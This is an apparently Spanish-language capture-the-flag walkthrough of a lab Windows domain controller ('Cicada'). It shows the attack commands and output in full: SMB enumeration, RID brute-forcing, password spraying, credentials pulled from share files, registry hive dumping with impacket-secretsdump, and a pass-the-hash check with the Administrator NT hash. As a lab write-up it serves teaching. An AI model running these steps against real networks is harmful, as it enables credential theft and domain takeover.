```zsh
 ping -c 3 10.10.11.35    
PING 10.10.11.35 (10.10.11.35) 56(84) bytes of data.
64 bytes from 10.10.11.35: icmp_seq=1 ttl=127 time=62.0 ms
64 bytes from 10.10.11.35: icmp_seq=2 ttl=127 time=62.9 ms
64 bytes from 10.10.11.35: icmp_seq=3 ttl=127 time=62.1 ms
```

## Recon

```zsh
sudo nmpa -p- --open --min-rate 5000 -n -v -Pn 10.10.11.35 -oG allPorts
nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,51362 10.10.11.35 -oN targeted

# Nmap 7.95 scan initiated Sun Aug  3 20:59:21 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,51362 -oN targeted 10.10.11.35
Nmap scan report for 10.10.11.35
Host is up (0.063s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-04 07:59:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
51362/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-04T08:00:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug  3 21:00:58 2025 -- 1 IP address (1 host up) scanned in 97.10 seconds
```

```zsh
 nxc smb 10.10.11.35                                                                         
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
```

```zsh
echo "10.10.11.35 cicada.htb cicada-dc.cicada.htb" | sudo tee -a /etc/hosts
```

```zsh
nxc smb 10.10.11.35  -u 'guest' -p '' --shares
```



Puedo leer HR y IPC$

```zsh
smbclient //10.10.11.35/HR -U 'guest'
```



Descargamos el archivo txt con ``get "Notice from HR.txt"``.

```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Tenemos contraseña pero no sabemos para que usuario, por lo tanto, podriamos utilizar el usuario guest para realizar un ataque de fuerza bruta para enumerar usuarios en el Dominio.

```d
Cicada$M6Corpb*@Lp#nZp!8
```

```zsh
 nxc smb 10.10.11.35  -u 'guest' -p '' --rid-brute | grep "SidTypeUser"
```



```zsh
cat users | awk 'NF{print $6}' | sed 's/CICADA\\//'
```

```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

## Password Spraying

```zsh
nxc smb 10.10.11.35  -u users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

```zsh
cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

### SMBMAP

Quiza encontremos algo diferente teniendo credenciales validas

```zsh
smbmap -H 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -r 'HR' --depth 10
```

Aunque podemos ver en los archivos SYSVOL y NETLOGON , no encontramos nada importante.


Podriamos ver mayor informacion con `ldapdomaindump`

```zsh
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -n 10.10.11.35 cicada-dc.cicada.htb
```



Unico usuario en el grupo `REMOTE MANAGEMENT USERS` y `BACKUP OPERATORS` es emily.oscars.

Usuario con contraseña en la descripcion es ``david.orelious`` 

```
aRt$Lp#7t*VQ!3
```

Incluso podemos verla con el comando rpcclient

```zsh
rpcclient -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -c 'querydispinfo'
```



David ahora nos permite leer en el directoprio de DEV

```zsh
 nxc smb 10.10.11.35  -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```



```zsh
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r 'DEV' --depth 10
```


Para descargar con smbmap le indicamos el parametro --download

```zsh
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r 'DEV' --depth 10 --download './DEV/Backup_script.ps1'
```

```powershell
catn Backup_script.ps1   

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Validamos las credenciales de emily:

```zsh
nxc winrm 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```



Listamos los recursos compartidos para ver si podemos ver algo nuevo

```zsh
nxc smb 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' --shares
```



```zsh
 evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

## Priv-Esc

`whoami /priv`



```powershell
C:\
```

`mkdir temp`

```powershell
reg save hklm\system C:\temp\SYSTEM
```

```powershell
reg save hklm\sam C:\temp\sam
```



Descargamos ambos archivos

```zsh
impacket-secretsdump -sam sam -system SYSTEM local 
```

```zsh
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

Validamos el hash del Administrator

```zsh
nxc winrm 10.10.11.35  -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```



